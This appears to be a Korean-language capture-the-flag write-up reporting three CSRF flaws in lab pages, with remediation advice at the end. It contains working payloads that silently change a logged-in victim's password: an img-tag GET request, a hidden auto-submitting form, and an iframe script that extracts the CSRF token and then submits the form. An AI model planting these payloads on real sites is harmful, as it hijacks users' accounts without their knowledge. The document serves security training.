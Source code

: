 # CSRF Report

## 개요

본 보고서는 웹 애플리케이션 내 특정 기능에서 발견된 **Cross-Site Request Forgery (CSRF)** 취약점에 대한 분석을 목적으로 작성되었습니다.

총 **3건의 개별 CSRF 취약점이 발견**되었으며, 각각 다른 기능에서 발생하였습니다.

해당 취약점은 공격자가 피해자의 브라우저를 통해 의도하지 않은 요청을 전송하도록 유도함으로써, 설정 변경, 비밀번호 변경 등의 악의적인 행위가 발생할 수 있습니다.

또한 관리자 계정이 공격 대상일 경우 간접적인 권한 상승 효과도 발생할 수 있습니다.

---

## 요약

- 총 발견된 CSRF 취약점: 3건
- 주요 위험 행위:
  - 비밀번호 무단 변경
  - 관리자 기능 요청 유도 가능성
- 보안 취약 원인: 
  - **CSRF Token 미사용**: 일부 기능은 CSRF Token 없이 요청이 처리되어 외부 사이트에서 임의 요청을 전송할 수 있음
  - **Referer 검증 미비**: 요청의 출처에 대한 서버 측 검증이 없어 외부 출처에서도 내부 요청이 가능함
  - **CSRF Token 우회 가능**: 특정 기능은 CSRF Token을 사용하지만, 토큰이 HTML 내에 그대로 노출되어 있으며 `iframe`을 통해 추출 및 악용이 가능함

---

## 내용

### CSRF 1

- 문제 이름: **GET Admin 1**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_1/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **GET 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명:
해당 기능은 사용자 정보를 변경하는 요청을 **HTTP GET 방식으로도 처리하고 있으며**, `CSRF Token`이나 `Referer` 검증 없이
파라미터만으로 사용자의 정보를 변경할 수 있어 외부 요청에 취약한 구조를 가짐.

![CSRF1 burp suite](./screenshots/csrf1_burp_suite.png)

- 공격자는 게시판 기능을 이용해 다음과 같이 **사회공학적 미끼 제목**과 함께 CSRF 공격용 이미지를 삽입함.

페이로드:
```html
<img src="http://ctf.segfaulthub.com:7575/csrf_1/mypage_update.php?id=&info=&pw=1234">
```

![CSRF1 post](./screenshots/csrf1_post.png)


- **공격용 게시글 목록 화면 (페이로드 노출 없음)**  
사용자는 일반 게시글처럼 보여 클릭 유도됨.

![CSRF1 list](./screenshots/csrf1_list.png)

- 관리자가 로그인된 상태로 해당 게시글을 조회할 경우,  
**삽입된 이미지 태그를 통해 자동으로 GET 요청이 전송되며, 사용자의 비밀번호가 공격자가 지정한 값으로 변경됨**.

---

### CSRF 2

- 문제 이름: **GET Admin 2**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_2/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **POST 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명: 해당 기능은 POST 요청으로 사용자 정보를 변경하는 API를 제공하고 있으나, 서버는 `CSRF Token` 검증 또는 `Referer` 검증 없이 요청을 처리함.
이로 인해 공격자가 외부 HTML 문서 내에 자동으로 전송되는 `form`을 작성할 경우, 피해자의 세션을 이용한 비밀번호 변경이 가능함.

![CSRF2 burp suite](./screenshots/csrf2_burp_suite.png)

- 요청 파라미터 중 `id` 값을 빈 문자열(`""`)로 설정하더라도,  
서버는 이를 별도 검증 없이 **현재 로그인된 사용자 세션 기준으로 자동 대체 처리**하는 구조를 가지고 있음.


![CSRF2 post](./screenshots/csrf2_post.png)

페이로드:
```html
<iframe name="frame" sandbox="allow-forms allow-same-origin" style="display:none;"></iframe>

<form action="http://ctf.segfaulthub.com:7575/csrf_2/mypage_update.php" method="POST" target="frame">
  <input type="hidden" name="id">
  <input type="hidden" name="info" value="">
  <input type="hidden" name="pw" value="12345">
</form>

<script>
  document.forms[0].submit();
</script>
```

- 이로 인해 공격자는 사용자의 ID를 몰라도, 단순히 게시글을 열게 만드는 것만으로 **그 사용자의 비밀번호를 변경시킬 수 있으며**,
같은 게시글을 여러 사용자가 열 경우, 
**각각 자신의 계정 기준으로 비밀번호가 바뀌는 광범위한 피해가 발생할 수 있음.**

- 또한 공격자는 `<iframe>`에 `sandbox="allow-forms allow-same-origin"` 옵션을 설정함으로써,  
폼 전송은 허용하면서도 서버 응답 내 JavaScript(alert 등)를 실행하지 않도록 설정 함.

따라서 피해자는 **회원 정보 수정에 성공하셨습니다!** 와 같은 안내 알림이 나타나지 않아,  
**비밀번호가 변경되었음에도 공격 사실을 인지하지 못한 채 CSRF 공격에 노출됨.**

---

### CSRF 3

- 문제 이름: **GET Admin 3**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_3/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **CSRF Token 우회**
- 취약점 심각도: **HIGH**

- 설명:  
해당 기능은 CSRF Token이 적용되어 있지만, `mypage.php` 페이지를 통해 토큰 값을 클라이언트에 노출시키는 구조이며, 서버는 전달된 토큰 값의 유효성만 검증한 뒤 사용자 정보를 수정함.

공격자는 이를 악용하여 다음과 같이 **토큰 값을 사전에 iframe을 통해 추출 후**, 해당 값을 포함한 POST 요청을 자동으로 생성하여 사용자의 정보(비밀번호 등)를 변경할 수 있음.


![CSRF3 burp suite](./screenshots/csrf3_burp_suite.png)

- 공격자는 다음과 같은 구조의 HTML을 게시글에 삽입하여, **사용자가 게시글을 열었을 때 자동으로 토큰 추출 → 정보 변경이 발생하도록 구성**함.

페이로드:
```html
<iframe src="http://ctf.segfaulthub.com:7575/csrf_3/mypage.php?user=user101" id="frame1" style="display:none"></iframe>
<iframe name="frame2" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>
<form action="http://ctf.segfaulthub.com:7575/csrf_3/mypage_update.php" method="POST" target="frame2" style="display:none">
<input name="id" value="">
<input name="info" value="">
<input name="pw" value="123">
<input name="csrf_token" value="">
</form>

<script>
    window.onload = function () {
        const html_frame = document.getElementById("frame1").contentWindow.document;
        const token = html_frame.querySelector('input[name="csrf_token"]').value;
        document.querySelector('input[name="csrf_token"]').value = token;
        document.forms[0].submit();
    }
</script>
```

![CSRF3 post](./screenshots/csrf3_post.png)

- 공격자 페이지에는 시각적으로 아무 것도 표시되지 않으며,
`form`, `iframe` 모두 `display:none` 처리되어 사용자는 공격 사실을 인지할 수 없음.

> 클라이언트 측에서 CSRF Token이 노출되는 구조에서는, 공격자가 `iframe` 등을 이용해 이를 추출하고 자동 요청을 구성함으로써 **Token 기반 방어 로직 또한 우회할 수 있음.**

---

## 대응 방안

- CSRF 방지를 위해 다음과 같은 보안 조치가 필요함:

  - 모든 상태 변경 요청에는 CSRF Token을 포함하고, 해당 토큰을 서버 측에서 검증할 것
  - Referer 또는 Origin 헤더를 기반으로 요청 출처를 검증할 것
  - CSRF Token은 HTML 내에 직접 노출하지 않고, JavaScript 접근이 불가능한 httpOnly Cookie 또는 서버 렌더링 방식으로 처리할 것
  - 요청 메서드(GET → POST) 및 민감한 정보 변경 로직의 접근 제한 강화

- 특히 관리자 계정의 기능 접근 시, CSRF 취약점을 통해 권한 상승이 가능한 구조가 발견되었으므로  
**즉시 수정 및 보완 조치가 필요함**










